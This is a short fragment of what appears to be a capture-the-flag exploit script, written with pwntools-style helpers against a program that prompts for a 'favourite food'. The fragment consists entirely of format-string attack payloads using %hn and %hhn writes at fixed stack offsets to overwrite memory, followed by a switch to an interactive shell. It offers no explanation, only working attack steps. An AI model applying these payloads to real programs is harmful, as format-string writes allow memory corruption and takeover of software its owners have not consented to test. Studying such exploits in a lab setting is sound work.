 ```

  

sla('favourite food: ','%'+str(stack1&0xffff)+'c%11$hn')

sla('favourite food: ','%'+str(og&0xffff)+'c%37$hn')

  

sla('favourite food: ','%'+str((stack1+2)&0xffff)+'c%11$hn')

sla('favourite food: ','%'+str((og>>16)&0xff)+'c%37$hhn')

# gdb.attach(p)

itr()
```